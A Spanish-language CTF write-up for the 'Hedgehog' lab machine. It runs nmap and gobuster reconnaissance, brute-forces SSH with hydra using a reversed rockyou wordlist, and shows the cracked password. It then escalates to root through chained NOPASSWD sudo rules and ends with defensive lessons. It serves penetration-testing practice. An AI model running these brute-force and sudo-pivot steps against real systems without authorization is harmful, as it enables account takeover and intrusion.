

# Máquina Vulnerable: Hedgehog

|                   | Detalle maquina original                        |
| ----------------- | ----------------------------------------------- |
| Autor             | [AnkbNikas](https://github.com/AnkbNikas) |
| Dificultad        | Muy Fácil                                       |
| Fecha de creación | 10/11/2024                                      |
| Fecha del writeup | 11/12/2025                                      |
| Maquina original  | hedgehog                                        |

Máquina CTF diseñada para practicar técnicas de pentesting básicas en un entorno controlado. Esta réplica implementa vulnerabilidades típicas de configuraciones inseguras que incluyen exposición de información sensible, contraseñas débiles y escalada de privilegios mediante configuraciones sudo mal establecidas con usuarios intermedios.

El objetivo es practicar metodologías de pentesting desde el reconocimiento inicial hasta la escalada de privilegios, utilizando herramientas estándar como nmap, gobuster, hydra y técnicas de pivoting entre usuarios mediante sudo.

## Tabla de Contenidos

- [Explotación](#explotación)
  - [Vulnerabilidades Implementadas](#vulnerabilidades-implementadas)
- [Write-up Completo](#write-up-completo)
  - [Diagrama de Ataque](#diagrama-de-ataque)
  - [Paso 1: Reconocimiento - Escaneo de Puertos](#paso-1-reconocimiento---escaneo-de-puertos)
  - [Paso 2: Enumeración Web - Fuzzing de Directorios](#paso-2-enumeración-web---fuzzing-de-directorios)
  - [Paso 3: Análisis del Sitio Web](#paso-3-análisis-del-sitio-web)
  - [Paso 4: Ataque de Fuerza Bruta SSH con Diccionario Inverso](#paso-4-ataque-de-fuerza-bruta-ssh-con-diccionario-inverso)
  - [Paso 5: Acceso SSH como Usuario](#paso-5-acceso-ssh-como-usuario)
  - [Paso 6: Enumeración de Privilegios](#paso-6-enumeración-de-privilegios)
  - [Paso 7: Escalada de Privilegios a Usuario Intermedio](#paso-7-escalada-de-privilegios-a-usuario-intermedio)
  - [Paso 8: Escalada Final a Root](#paso-8-escalada-final-a-root)
- [Conclusión](#conclusión)

---

## Explotación

### Vulnerabilidades Implementadas

- **Exposición de Información**: Página web accesible que revela nombre de usuario
- **Contraseña Débil al Final del Diccionario**: Password vulnerable a ataques de diccionario inverso (rockyou.txt reverso)
- **Configuración sudo Insegura en Cadena**: Usuario puede ejecutar comandos como usuario intermedio sin contraseña
- **Permisos Elevados Innecesarios**: Usuario intermedio con acceso completo a root
- **Escalada de Privilegios en Dos Pasos**: Pivoting de tails → sonic → root

---

## Write-up Completo

### Diagrama de Ataque



### Paso 1: Reconocimiento - Escaneo de Puertos

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p- -sV 172.17.0.2
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-11 19:23 EST
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.04 seconds
```

**Resultado**: Se identifican dos puertos abiertos:
- **Puerto 80 (HTTP)**: Apache httpd 2.4.58
- **Puerto 22 (SSH)**: OpenSSH 9.6p1 Ubuntu

### Paso 2: Enumeración Web - Fuzzing de Directorios

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt -x php,html | grep "(Status: 200)"
/index.html           (Status: 200) [Size: 6]
```

**Resultado**: Se descubre el archivo `index.html`

### Paso 3: Análisis del Sitio Web

```bash
┌──(kali㉿kali)-[~]
└─$ curl http://172.17.0.2
tails
```

**Resultado**: Se obtiene el nombre de usuario `tails` directamente desde la página web

### Paso 4: Ataque de Fuerza Bruta SSH con Diccionario Inverso

El ataque de fuerza bruta tradicional con rockyou.txt tomaría demasiado tiempo:

```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l tails -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-12-11 19:36:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 240.00 tries/min, 240 tries in 00:01h, 14344162 to do in 996:08h, 13 active
[STATUS] 231.33 tries/min, 694 tries in 00:03h, 14343708 to do in 1033:25h, 13 active
```

**Nota**: Se detiene porque tomaría más de 1000 horas.

**Estrategia alternativa**: Invertir el diccionario rockyou.txt para comenzar desde el final:

```bash
┌──(kali㉿kali)-[~]
└─$ tac /usr/share/wordlists/rockyou.txt > ~/rockyou_reverse.txt
```

Verificar el contenido del archivo invertido:

```bash
┌──(kali㉿kali)-[~]
└─$ head rockyou_reverse.txt
*7¡Vamos!
a6_123
abygurl69
ie168
▒xCvBnM,


       1
       1234567
```

Limpiar espacios en blanco del diccionario:

```bash
┌──(kali㉿kali)-[~]
└─$ sed -i 's/ //g' rockyou_reverse.txt
```

Verificar la limpieza:

```bash
┌──(kali㉿kali)-[~]
└─$ head rockyou_reverse.txt

*7¡Vamos!
a6_123
abygurl69
ie168
▒xCvBnM,


1
1234567
```

Ejecutar hydra con el diccionario inverso:

```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l tails -P ~/rockyou_reverse.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-12-11 19:50:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344386 login tries (l:1/p:14344386), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: tails   password: 3117548331
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-12-11 19:50:50
```

**Resultado**: Credenciales descubiertas → `tails:3117548331`

### Paso 5: Acceso SSH como Usuario

```bash
┌──(kali㉿kali)-[~]
└─$ ssh tails@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:vVwna5nZRCyYSIsc1524JC6VpZ1YBLO+/wBCEPaIIeU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
tails@172.17.0.2's password:
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.12.38+kali-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
tails@f69b0297c5bf:~$
```

**Resultado**: Acceso exitoso como usuario `tails`

### Paso 6: Enumeración de Privilegios

```bash
tails@f69b0297c5bf:~$ sudo -l
User tails may run the following commands on f69b0297c5bf:
    (sonic) NOPASSWD: ALL
```

**Resultado**: El usuario `tails` puede ejecutar todos los comandos como usuario `sonic` sin contraseña

### Paso 7: Escalada de Privilegios a Usuario Intermedio

```bash
tails@f69b0297c5bf:~$ sudo -u sonic /bin/bash
sonic@f69b0297c5bf:/home/tails$
```

**Resultado**: Acceso exitoso como usuario `sonic`

### Paso 8: Escalada Final a Root

```bash
sonic@f69b0297c5bf:/home/tails$ sudo -u root /bin/bash
root@f69b0297c5bf:/home/tails# whoami
root
```

**Resultado**: Escalada exitosa a root ✓

---

## Conclusión

Esta máquina demuestra vulnerabilidades comunes en entornos mal configurados:
- Exposición de información sensible en páginas web sin protección
- Contraseñas débiles susceptibles a ataques de diccionario (incluso al final del diccionario)
- Configuraciones sudo inseguras en cadena que permiten escalada de privilegios mediante pivoting entre usuarios
- Falta de restricciones en permisos de ejecución entre usuarios

**Lecciones aprendidas:**
- Nunca exponer información de usuarios en sitios web públicos
- Usar contraseñas robustas y únicas que no estén en diccionarios comunes
- Restringir permisos sudo a comandos específicos y seguros, evitando configuraciones amplias como `NOPASSWD: ALL`
- Implementar el principio de mínimo privilegio en todos los niveles del sistema
- Considerar diccionarios inversos en pruebas de penetración cuando los ataques tradicionales toman demasiado tiempo
- Validar configuraciones de seguridad regularmente, especialmente cadenas de privilegios entre usuarios